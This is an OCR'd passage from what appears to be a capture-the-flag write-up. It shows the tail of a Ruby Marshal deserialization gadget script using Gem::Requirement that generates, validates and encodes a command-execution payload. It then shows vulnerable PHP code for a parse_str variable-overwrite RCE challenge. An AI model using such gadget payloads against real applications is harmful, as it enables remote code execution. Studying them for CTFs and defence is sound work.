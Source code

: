 ```ruby
puts "STEP n-2"
$dependency_list.each{} rescue nil
puts


class Gem::Requirement
  def marshal_dump
    [$dependency_list]
  end
end

payload = Marshal.dump(Gem::Requirement.new)

puts "STEP n-3"
Marshal.load(payload) rescue nil
puts


puts "VALIDATION (in fresh ruby process):"
IO.popen("ruby -e 'Marshal.load(STDIN.read) rescue nil'", "r+") do |pipe|
  pipe.print payload
  pipe.close_write
  puts pipe.gets
  puts
end

puts "Payload (hex):"
puts payload.unpack('H*')[0]
puts


require "base64"
puts "Payload (Base64 encoded):"
puts Base64.encode64(payload)
```

And enter the base64 encoded payload and we got our command working.


## parse_str variable overwrite leads to RCE (Arkavidia 7)
Vulnerable code:

```php
<?php
error_reporting(0);

if ($_GET['debug']) {
    highlight_file(__FILE__);
    return;
}

$calculate = function($a, $b) {
    return $a + $b;
};

$param = parse_str(file_get_contents("php://input"));

if ($param['a']) {
    $a = $param['a'];
}

if ($param['b']) {
    $b = $param['b'];
}
```